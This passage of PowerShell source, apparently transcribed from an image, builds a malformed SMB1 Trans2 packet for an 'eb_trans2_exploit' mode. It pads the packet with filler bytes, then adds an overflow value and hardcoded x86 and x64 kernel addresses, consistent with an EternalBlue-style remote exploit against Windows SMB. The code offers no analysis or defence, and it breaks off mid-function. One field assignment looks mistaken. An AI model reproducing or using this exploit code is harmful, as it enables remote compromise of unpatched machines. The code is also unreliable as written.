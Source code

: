function make_smb1_trans2_exploit_packet($tree_id, $user_id, $type, $timeout) {
    $timeout = ($timeout * 0x10) + 3

    [Byte[]]  $pkt = [Byte[]] (0x00)                   # Session message
    $pkt += 0x00,0x10,0x35           # length
    $pkt += 0xff,0x53,0x4D,0x42                # SMB1
    $pkt += 0x33                   # Trans2 request
    $pkt += 0x00,0x00,0x00,0x00       # NT SUCCESS
    $pkt += 0x18                   # Flags
    $pkt += 0x07,0xc0               # Flags2
    $pkt += 0x00,0x00               # PID High
    $pkt += 0x00,0x00,0x00,0x00       # Signature1
    $pkt += 0x00,0x00,0x00,0x00       # Signature2
    $pkt += 0x00,0x00               # Reserved
    $pkt += $user_id       # TreeID
    $pkt += 0xff,0xfe               # PID
    $pkt += $user_id     # UserID
    $pkt += 0x40,0x00               # MultiplexIDs

    $pkt += 0x09                   # Word Count
    $pkt += 0x00,0x00               # Total Param Count
    $pkt += 0x00,0x10               # Total Data Count
    $pkt += 0x00,0x00               # Max Param Count
    $pkt += 0x00,0x00               # Max Data Count
    $pkt += 0x00                   # Max Setup Count
    $pkt += 0x00                   # Reserved
    $pkt += 0x00,0x10               # Flags
    $pkt += 0x35,0x00,0xd0           # Timeouts
    $pkt += [bitconverter]::GetBytes($timeout)[0] #timeout is a single int
    $pkt += 0x00,0x00               # Reserved
    $pkt += 0x00,0x10               # Parameter Count

    #$pkt += 0x74,0x70               # Parameter Offset
    #$pkt += 0x47,0x46               # Data Count
    #$pkt += 0x45,0x6f               # Data Offset
    #$pkt += 0x4c                   # Setup Count
    #$pkt += 0x4f                   # Reserved

    if ($type -eq "eb_trans2_exploit") {

      $pkt += [Byte[]] (0x41) * 2957

      $pkt += 0x80,0x00,0xa8,0x00                     # overflow

      $pkt += [Byte[]] (0x00) * 0x10
      $pkt += 0xff,0xff
      $pkt += [Byte[]] (0x00) * 0x6
      $pkt += 0xff,0xff
      $pkt += [Byte[]] (0x00) * 0x16

      $pkt += 0x00,0xf1,0xdf,0xff             # x86 addresses
      $pkt += [Byte[]] (0x00) * 0x8
      $pkt += 0x20,0xf0,0xdf,0xff

      $pkt += 0x00,0xf1,0xdf,0xff,0xff,0xff,0xff,0xff # x64
